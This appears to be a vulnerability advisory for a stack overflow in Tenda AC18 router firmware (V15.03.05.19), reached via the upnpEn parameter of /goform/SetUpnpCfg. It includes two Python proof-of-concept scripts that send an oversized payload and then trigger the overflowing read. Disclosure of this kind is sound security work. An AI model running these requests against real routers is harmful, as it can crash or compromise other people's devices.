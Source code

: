 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/SetUpnpCfg` url. The `Var` variable receives the `upnpEn` parameter from a POST request and is stored in the configuration item named`adv.upnp.en` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250928_122719.png)

`adv.upnp.en`  configuration item can  be retrieved through the GetValue function in the `/goform/GetAdvanceStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows by the `v38` variable.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250928_123057.png)

## PoC

Set `adv.upnp.en`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SetUpnpCfg"
payload = "a"*1000

data = {"upnpEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

Get `adv.upnp.en`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GetAdvanceStatus"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)